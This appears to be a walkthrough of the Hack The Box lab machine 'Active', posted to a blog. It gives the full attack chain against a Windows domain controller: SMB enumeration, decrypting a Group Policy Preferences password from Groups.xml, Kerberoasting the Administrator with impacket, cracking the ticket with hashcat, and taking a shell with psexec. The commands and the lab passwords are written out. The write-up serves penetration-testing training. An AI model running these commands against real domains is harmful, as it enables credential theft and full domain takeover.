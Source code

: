 ```yaml
---
layout: post
title: "Active"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.140.152

sudo nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49162,49166,49168 -oA nmap/active 10.129.140.152

result:
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-03 15:58:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

The backend is operated by Windows. We also found the domain name active.htb, let’s put that in /etc/hosts

There is smb service, lets’ try null authenticiation

```bash
smbclient -N -L //10.129.140.152

result:

Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.140.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

smbmap -H 10.129.140.152

result:
[+] IP: 10.129.140.152:445      Name: active.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS

```

Since we have read permission on Replication, let’s list all the files:

```bash
smbmap  -H 10.129.140.152 -r Replication --depth 10

#Now we download the interesting file -A parameter to match string
smbmap -H 10.129.140.152 -A Groups.xml -q -r Replication --depth 10

mv /home/billy/htb_lab/active/10.129.140.152-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml Groups.xml
```

A critical vulnerability was identified in how `groups.xml` handled sensitive data:

- **Plaintext Passwords**:
    - If a user account (e.g., a local administrator) was configured using `groups.xml`, the password for that account was stored in **plaintext or weakly encrypted** format (AES-256 with a known static key) in the XML file.

If we view the content, we get user SVC_TGS’s hashed password. We can use gpp-decrypt to decrypt the password:

`gpp-decrypt` is a tool used to decrypt passwords that were stored in **Group Policy Preferences (GPP)**. These passwords are stored in an encrypted format but use a **static AES-256 key** that is publicly known, making the encryption essentially useless.

The tool is widely used in penetration testing and red teaming to recover plaintext passwords from GPP configuration files, such as `groups.xml`.

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Now let’s check if the password is valid.

```bash
crackmapexec smb -u SVC_TGS -p GPPstillStandingStrong2k18 --shares active.htb

result:
SMB         active.htb      445    DC               Share           Permissions     Remark                                                                
SMB         active.htb      445    DC               -----           -----------     ------                                                                
SMB         active.htb      445    DC               ADMIN$                          Remote Admin                                                          
SMB         active.htb      445    DC               C$                              Default share                                                         
SMB         active.htb      445    DC               IPC$                            Remote IPC                                                            
SMB         active.htb      445    DC               NETLOGON        READ            Logon server share                                                    
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL          READ            Logon server share 
SMB         active.htb      445    DC               Users           READ 
```

Let’s login and get the flag

```bash
smbclient -U svc_tgs //10.129.140.152/Users

get svc_tgs/Desktop/user.txt
```

Now let’s enumerate AD users

```bash
impacket-GetADUsers -all -dc-ip 10.129.140.152 active.htb/svc_tgs  #Windows is case insensitive

result:
Administrator                                         2018-07-18 20:06:40.351723  2024-12-03 15:56:54.283335 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 19:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 21:14:38.402764  2024-12-03 16:44:09.213914
```

Now let’s use bloodhound to map the network

```bash
bloodhound-python -u svc_tgs -p 'GPPstillStandingStrong2k18' -ns 10.129.140.152 -d active.htb -c all
```

Now start bloodhound and copy and paste all the data in to map the network. Delete bloodhound mapping from previous session.

```bash
MATCH (n) DETACH DELETE n;  #enter in raw query

```

Now we start from our exploited user svc_tgs. We don’t find any objects we are in control of. However, when we search for shortest path to kerberoastable targets under the analysis tab, we see that user Administrator is kerberostable. Let’s use GetUserSPN.py

```bash
impacket-GetUserSPNs -request -dc-ip 10.129.140.152 active.htb/svc_tgs
```

Now save the tgs ticket to a file and crack it with hashcat

```bash
hashcat.exe -m 13100 C:\Users\oahzl\Desktop\shared\admin_nt_hash.txt wordlists\rockyou.txt
```

Now let’s use psexec to login

```bash
impacket-psexec active.htb/Administrator@10.129.140.152 #Ticketmaster1968
```

We have root.txt

- smbmap enumeration
- exploiting groups.xml
- gpp-decrypt
- bloodhound
- Kerberoasting
- GetUserSPN, GetADUsers, psexec
- hashcat NTLM
